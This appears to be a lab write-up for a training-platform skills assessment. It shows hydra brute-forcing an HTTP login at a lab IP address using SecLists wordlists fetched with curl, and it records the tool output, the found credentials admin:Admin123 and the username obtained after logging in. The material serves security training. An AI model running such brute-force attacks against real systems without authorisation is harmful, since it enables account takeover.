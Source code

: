 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250213155858.png)

Let's begin by downloading both wordlists to our machine:

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt 
```

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

Once we've got everything, let's begin with the bruteforce process, we can use hydra for this process:

```
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 42572 http-get -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:02:48
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-get://94.237.54.164:42572/
[42572][http-get] host: 94.237.54.164   login: admin   password: Admin123
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`admin`:`Admin123`
```

Let's log in now:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250213160445.png)

We got the username:

```
satwossh
```